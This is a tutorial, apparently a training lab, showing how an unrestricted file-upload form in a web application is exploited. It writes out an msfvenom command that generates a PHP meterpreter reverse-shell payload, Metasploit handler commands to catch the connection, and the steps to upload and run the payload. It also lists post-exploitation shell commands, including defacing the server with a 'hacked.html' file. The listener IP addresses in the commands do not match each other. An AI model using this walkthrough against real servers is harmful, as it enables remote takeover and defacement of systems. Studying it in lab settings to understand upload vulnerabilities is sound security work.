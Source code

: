 # File Upload

In this example, we'll show the possibility of sending a malicious file to the Web application, and thereby compromise the server where it is hosted. For that we will use Metasploit to create a malicious payload.

![](../assets/fu01.png)

After a successful upload to the server, the web application shows a success message revealing the directory where the file was stored. It is also possible to verify that the application accepts as upload any type of file and not only an image.

Since the form allows uploads of other types of files, we will create a malicious file and send it to the server through this upload mechanism. To do this, we'll use "**Metasploit**", which through the application "`msfvenom`" allows the creation of malicious payloads.

With the following command it is possible to create a "**reverse shell**", in PHP, which when executed opens a connection between the server and the attacker's machine, allowing the attacker to control it.

    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.8.141 LPORT=4444 R > malicious_payload.php

    No platform was selected, choosing Msf::Module::Platform::PHP from the payload
    No Arch selected, selecting Arch: php from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 949 bytes

Then you need to edit the payload (malicious_payload.php), and remove the initial comment, and save the file again.

![](../assets/fu02.png)

Next we'll use Metasploit to create a service that listens for the connection from the attacker's malicious script.

    msfconsole
    use exploit/multi/handler
    set PAYLOAD php/meterpreter/reverse_tcp
    set LHOST 192.168.1.141
    set LPORT 4444
    exploit

    [*] Started reverse handler on 192.168.1.155:4444 
    [*] Starting the payload handler...

It is then possible to upload the malicious script to the application and the server.

![](../assets/fu03.png)

Once the application reveals where it is stored, it is possible to go to that same directory, select the malicious script and run it.

![](../assets/fu04.png)

After running the script, we can see in the Metasploit console (on the attacker's side) that it has received a connection from the victim (the web server, where the vulnerable application resides), and that it is now possible to use the `meterpreter` to perform actions on the victim.

![](../assets/fu05.png)

In this "meterpreter" we can launch a shell on the remote machine and execute several commands there.

    shell

We can execute several commands there, including creating files with messages by the attacker.

    uptime
    pwd
    whoami
    w
    echo "Powned by SOMEONE!" > hacked.html

At the end we can see that a file "hacked.html" was created on the server.
 
When we click on that file, we can see the message that was placed there!
